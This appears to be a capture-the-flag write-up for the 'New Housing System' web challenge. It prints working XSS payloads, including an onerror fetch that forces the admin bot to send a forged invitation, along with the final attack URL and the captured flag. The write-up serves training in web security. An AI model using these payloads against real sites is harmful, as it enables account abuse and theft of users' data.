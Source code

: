 # New Housing System

## Description
```
After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. 
Can you make Samy tell you his deepest darkest secret?

Site - new-housing-portal.chall.lac.tf
Admin Bot - https://admin-bot.lac.tf/new-housing-portal
```

## Provided Files
`new-housing-portal.zip`

## Writeup

Starting off I instantly knew that this was a `XSS` vulnerability. <br/>
In CTF challenges where there is an `admin-bot` to visit a website this is almost always the case. <br/>
Knowing this I searched the flag in the provided code.
```js
users.set('samy', {
  username: 'samy',
  name: 'Samy Kamkar',
  deepestDarkestSecret: process.env.FLAG || 'lactf{test_flag}',
  password: process.env.ADMINPW || 'owo',
  invitations: [],
  registration: Infinity
});
```
In the code above the flag is being injected into a user account. <br/>

```js
const $ = q => document.querySelector(q);
const $all = q => document.querySelectorAll(q);

(async () => {
  const { invitations } = await fetch('/invitation').then(r => r.json());
  $('.invitations').innerHTML = invitations.map((inv) => `
    <div class="invitation">
      <div class="col">
        <div class="from">From: ${inv.from}</div>
        <div class="secret">Deepest Darkest Secret: ${inv.deepestDarkestSecret}</div>
      </div>
      <div class="col">
        <button>Accept</button>
      </div>
    </div>
  `).join('\n');

  $all('button').forEach((button) => {
    button.addEventListener('click', () => {
      alert('Sorry! The System is under load, cannot accept invite!');
    })
  });
})();
```
In the code above the flag would be loaded as `deepestDarkestSecret`. <br/>
Keeping this in mind I searched for the `XSS` entrypoint. <br/>
I was able to find it in the endpoint `/finder` using the query `?q=XSS`. <br/>

Putting this together for a test I created a user with the XSS as the name below. <br/>
```
<img src=1 onerror=alert(1)>
```

After creating this user I visited the URL `https://new-housing-portal.chall.lac.tf/finder/?q=<img src=1 onerror=alert(1)>` which resulted in an alert being executed in my browser. <br/>
Having this working `XSS` vulnerability I now had to forge a `XSS payload` to send an invite to my account so I can put it into an URL and use it on the `admin-bot`. <br/>

After some tampering I found a working payload. <br/>
```js
<img src=1 onerror="fetch('https://new-housing-portal.chall.lac.tf/finder',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'username=MYACCOUNT'});">

fetch('https://new-housing-portal.chall.lac.tf/finder', {
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'username=MYACCOUNT'
});
```

Taking a look at the javascript code we can see that it takes my username to send a `POST` request with it to the endpoint `/finder`. <br/>
Finished URL: <br/>
```
https://new-housing-portal.chall.lac.tf/finder/?q=<img src=1 onerror="fetch('https://new-housing-portal.chall.lac.tf/finder',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'username=yeetus_maximus'});">
```

Using this URL in the `admin-bot` I was able to obtain the flag which concludes this writeup. <br/>
```
From: samy
Deepest Darkest Secret: lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}
```
